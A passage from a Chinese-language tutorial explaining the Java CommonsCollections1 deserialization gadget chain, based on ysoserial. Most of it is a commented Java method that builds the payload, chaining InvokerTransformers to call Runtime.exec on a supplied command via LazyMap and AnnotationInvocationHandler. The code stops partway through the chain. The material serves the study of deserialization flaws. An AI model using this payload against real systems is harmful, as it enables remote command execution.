 
### CC1

本节所讲构造链参考 `ysoserial-master\src\main\java\ysoserial\payloads\CommonsCollections1.java`，依赖三方库 `commons-collections:commons-collections:3.1`，Java版本通常需要<=7。

`AnnotationInvocationHandler` 用于处理注解类的动态 代理，构造函数传入的参数分别表示被代理的注解类型和注解的成员变量及变量值。

生成cc1构造链poc的代码如下，代码逻辑顺序与反序列化顺序相逆，我们后面以反序列化的逻辑来讲解该构造链：

```java
// DeserDemo\DemoTestCC\src\main\java\com\demo\testcc\TestCC1.java
	public InvocationHandler getCC1(final String command) throws Exception {
        final String[] execArgs = new String[] { command };

        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });

        // step 5
        // ConstantTransformer忽略输入key，单纯返回 Runtime.Class，该输出作为下个Transformer的输入
        // 第一个InvokerTransformer 的输入为Runtime.class，返回 method 对象，之后再调用该 method对象的invoke方法来反射调用Runtime
        // .getRuntime获取到一个Runtime对象，通过Runtime对象我们才能执行exec来执行命令
        final Transformer[] iTransformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),

                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs),
        };

        final Map innerMap = new HashMap();


        // step4
        // transformerChain 为 ChainedTransformer 实例化对象
        // ChainedTransformer.transform方法会遍历字段`Transformer[] iTransformers`进行迭代式的处理
        Reflections.setFieldValue(transformerChain, "iTransformers", iTransformers);

        // step3
        // LazyMap的实例化需要一个 Map对象 与一个 Transformer 对象
        // 当LazyMap.get(key)的入参key不在当前映射表中时，会先通过 factory.transform(key) 获取value，然后保存key-value
        // 这里的 factory 则为我们实例化时传入的 Transformer对象
        // 由此，lazyMap.get()触发了 transformerChain.transform()
        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        Constructor<?> c =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        c.setAccessible(true);

        // step3
        // handler2 为 AnnotationInvocationHandler的实例化对象
        // AnnotationInvocationHandler用于获取一些方法关于某个注解的内容，
        // 构造函数中，分别传入 注解类型、注解成员变量及其值（这里表现为 目标方法的注解值）
        // handler2.invoke() 调用 memberValues.get（）方法，即调用 lazyMap.get()
        InvocationHandler handler2 = (InvocationHandler) c.newInstance(Override.class, lazyMap);

        // step2
        // mapProxy为动态生成的代理类的实例对象，代理了Map Interface相关方法，InvocationHandler为handler1
```